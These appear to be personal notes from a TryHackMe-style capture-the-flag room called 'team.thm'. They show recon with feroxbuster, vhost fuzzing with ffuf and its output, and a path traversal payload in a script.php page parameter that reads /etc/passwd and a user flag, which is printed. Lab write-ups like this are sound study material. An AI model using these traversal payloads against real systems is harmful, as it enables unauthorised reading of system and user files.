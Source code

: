 
after finding nothing went for the writeup


- missed this in the source code of index.html
```
pache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>
```

- added this to my hosts file and ran ferox
```
   │   ~ ▓▒░ feroxbuster -u http://team.thm/ -w /usr/share/wordlists/small.txt -n -x html,php
```

also read a hint in the writeup about `vhosts`


used [[Vhost Fuzzing]] to and ran this command


```
   │   ~ ▓▒░ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://team.thm/ -H 'Host: FUZZ.team.thm' -fs 11366
```

and i get this

```
www.dev                 [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 132ms]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 1432ms]
dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 3448ms]
```

- hint suggests to perform directory traversal attack 
```
As the "dev" site is under contruction maybe it has some flaws? "url?=" + "This rooms picture"
```

as `dev.team.thm` returns nothing


- `http://team.thm/robots.txt` this give `dale` , dont know what this means yet

- i forgot the to add the vhosts to `/etc/hosts`, added it

and visited the `http://dev.team.thm`, there i was redirected to (After clicking the link)


### Shell


`http://dev.team.thm/script.php?page=teamshare.php`, used the hint and got this one to be successfull

`http://dev.team.thm/script.php?page=teamshare.php../../../../../etc/passwd`


- checked for this `http://dev.team.thm/script.php?page=teamshare.php../../../../../home/dale/user.txt` and got  a response `THM{6Y0TXHz7c2d}`

- `/etc/passwd` confirms two users
`dale:x:1000:1000:anon,,,:/home/dale:/bin/bash gyles:x:1001:1001::/home/gyles`


